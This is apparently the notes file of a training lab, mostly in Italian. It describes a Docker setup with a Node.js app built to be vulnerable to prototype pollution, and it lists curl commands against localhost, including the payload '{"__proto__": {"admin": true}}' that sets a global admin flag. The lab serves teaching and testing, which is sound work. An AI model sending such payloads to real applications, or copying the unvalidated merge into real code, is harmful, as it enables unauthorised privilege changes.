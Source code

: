 ### Take this file as my diares, everything will be ordered after the infrastructure is complete
### Step 1: node+mongodb (prototype pollution) 
### Descrizione dell'infrastruttura
- **Docker Compose:** Definisce due servizi: 
  - `node`: Container che esegue l'applicazione Node.js vulnerabile, costruito utilizzando il file `Dockerfile.node` e mappato sulla porta 3000.
  - `mongo`: Container che esegue MongoDB, mappato sulla porta 27017 (in questo laboratorio serve come backend di esempio).
- **Dockerfile.node:** Specifica l'immagine base `node:14`, copia il codice sorgente (inclusi `package.json` e `index.js`), installa le dipendenze e imposta il comando per avviare l'applicazione (`npm start`).
- **Applicazione Node.js:** 
  - `index.js` definisce un server Express con due endpoint: 
    - **GET /check:** Restituisce il valore della proprietà `admin` dell'oggetto globale (`{}.admin`).
    - **POST /pollute:** Endpoint vulnerabile che, se il payload contiene `__proto__`, estende `Object.prototype` con i valori forniti.

### Descrizione delle vulnerabilità
- **Prototype Pollution:** 
  - L'applicazione non valida correttamente l'input dell'utente nell'endpoint `/pollute`, permettendo di modificare il prototipo globale (`Object.prototype`). 
  - Questo può portare a comportamenti imprevisti in tutta l'applicazione, poiché ogni oggetto eredita ora le proprietà modificate.
- *(Altre vulnerabilità come SSRF, attacchi a Redis e privilege escalation sono menzionate a scopo didattico ma non implementate in questo laboratorio.)*

### Descrizione dell'attacco (completo di comandi da usare)
1. **Avvio dell'infrastruttura:**
   ```bash
   docker compose up --build -d
```

2. **Verifica iniziale dello stato:**
```bash
curl http://localhost:3000/check

#output atteso {}% 
```

3. **Attacco prototype pollution:**
```bash
curl -X POST http://localhost:3000/pollute \
  -H "Content-Type: application/json" \
  -d '{ "__proto__": { "admin": true } }'
```

4. **Verifica effetto:**
```bash
curl http://localhost:3000/check

#output atteso {"admin":true}%     
```

